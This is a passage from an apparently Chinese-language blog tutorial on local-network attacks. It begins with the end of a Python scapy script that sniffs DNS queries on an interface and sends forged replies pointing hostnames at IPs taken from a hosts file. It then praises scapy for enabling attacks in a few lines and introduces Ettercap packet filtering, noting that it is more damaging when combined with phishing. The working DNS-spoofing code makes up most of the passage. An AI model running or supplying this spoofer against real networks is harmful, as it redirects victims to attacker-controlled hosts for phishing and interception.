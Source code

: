 ```bash
                    )
            print "Send %s has %s to %s" % (queried_host,resolved_ip,ip.src)
            scapy.send(dns_reply, iface=dev)
 
def usage():
    print sys.argv[0] + ' -f <hosts-file>  -i <dev>'
    sys.exit(1)
 
def parse_host_file(file):
    for line in open(file):
        line  = line.rstrip('\n')
 
        if line:
            (ip, host) = line.split()
            dns_map[host] = ip
try:
    cmd_opts = 'f:i:'
    opts, args = getopt.getopt(sys.argv[1:], cmd_opts)
except getopt.GetoptError:
    usage()
 
for opt in opts:
    if opt[0] == '-i':
        dev = opt[1]
    elif opt[0] == '-f':
        file = opt[1]
    else:
        usage()
 
if file:
    parse_host_file(file)
else:
    usage()
 
print "Spoofing DNS requests on %s" % dev
scapy.sniff(iface=dev, filter=filter, prn=handle_packet)
```
<span style="font-size: 15px;">　　上面的两个脚本的核心之处是使用了scapy（http://www.secdev.org/projects/scapy/doc/usage.html#starting-scapy）这个网络库，其功能十分的强大，使用简介，基本只需几行代码就可以进行特定的攻击，有时间要好好研究研究。</span>

　　**Ettercap的包过滤：**

　　Ettercap的包过滤是一个比较好玩的功能了。再结合一点钓鱼技术的话，危害就比较大了。下面简单介绍几种过滤实例：

　　Ettercap目录下也自带了一些过滤规则：

　　![img](ImageAssets/270035332621747-1573358989635.png)
